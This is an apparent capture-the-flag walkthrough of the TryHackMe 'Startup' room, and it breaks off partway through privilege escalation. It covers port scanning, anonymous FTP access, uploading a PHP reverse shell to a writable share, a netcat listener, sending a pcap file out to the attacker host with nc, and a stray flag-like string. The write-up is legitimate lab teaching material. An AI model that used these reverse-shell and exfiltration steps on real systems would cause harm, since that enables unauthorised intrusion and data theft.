 
[Play](https://tryhackme.com/room/startup)

## 1. Enumeration & Scanning
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[/tmp]
└─$ nmap -sC -sV -A 10.10.109.61
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:31 EDT
Nmap scan report for 10.10.109.61
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.150.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.09 seconds
```

Anonymous login allowed ... why?

### 1.2 FTP 

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.109.61  
Connected to 10.10.109.61.
220 (vsFTPd 3.0.3)
Name (10.10.109.61:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get notice.txt
...
ftp> get important.jpg
...
ftp> cd ftp
...
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
226 Directory send OK. 
```

The `ftp` directory was empty. Let's look at the other two files.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

![The important.jpg image, which is an AmongUs meme](https://i.imgur.com/UEd15ea.png)

One interesting thing to note is that the `ftp` directory is also writable.


### 1.3 Web Enumeration & Exploration

![A screenshot of the website's intial page](https://i.imgur.com/xPZaCyo.png)

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -a R -u 10.10.109.61 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/files                (Status: 301) [Size: 312] [--> http://10.10.109.61/files/]
```

Going to the web page, we see that all of these files are hosted, which were present in ftp port. This includes the image and the notice. Recall that `ftp` is also writeable. Its very clear now that we have to upload a reverse shell.


### 1.4 Reverse Shell
Now, the question is, of what? php? Well going to `http://10.10.109.61/index.php` leads me to a "Not Found" page. Uh ... perl or something?

Let's try php rev shell anyways. Use [revshells](https://www.revshells.com/) and get one for yourself. `put` the file in `/ftp` folder. Start netcat on your specified port and ip.

## 2. Foothold
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52074
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:53:18 up 24 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1233): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ 
```

And we are in!

I tried `cd`-ing into the user, but to no avail. The ssh keys are also in palce. What to do? Hint says to look for something sus. 

### 2.1 Exploration
We find a folder named incidents. It has a single pcapng file, suspicious.pcapng. I checked if the machine has netcat, and it does. So, let's transfer the file and go in detail.


On attacked machine:
```
www-data@startup:/incidents$ nc 10.8.150.214 1337 < suspicious.pcapng   
```

On your machine:
```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337 > sus.pcapng  
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52080
```

Looking around in the file, we have the passowrd hidden somewhere. Try finding it XD

### 2.2 SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh lennie@10.10.109.61
...
$ bash -i
lennie@startup:~$ 
```

And we are in (stably) :D

## 3. PrivEsc
I tried `lennie@startup:/$ file / -type f -perm -u=s 2>/dev/null`, which have empty results.

The `sudo -l` command does not work either.
```
lennie@startup:/$ sudo -l
sudo: unable to resolve host startup
[sudo] password for lennie: 
Sorry, user lennie may not run sudo on startup.
lennie@startup:/$ 
```

I checked the crontab, also not very interesting
```
lennie@startup:~/scripts$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
lennie@startup:~/scripts$ 
```

Looking at the `/scripts/` folder, we have some scripts lying around. I tried running the planner, and it printed out "done". 

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

The startup_list is empty. Moreover running the script again shows `planner.sh: line 2: /home/lennie/scripts/startup_list.txt: Permission denied`

This means we have two options. Make some use of `$LIST` or explore `/etc/print.sh`

c4ntg3t3n0ughsp1c3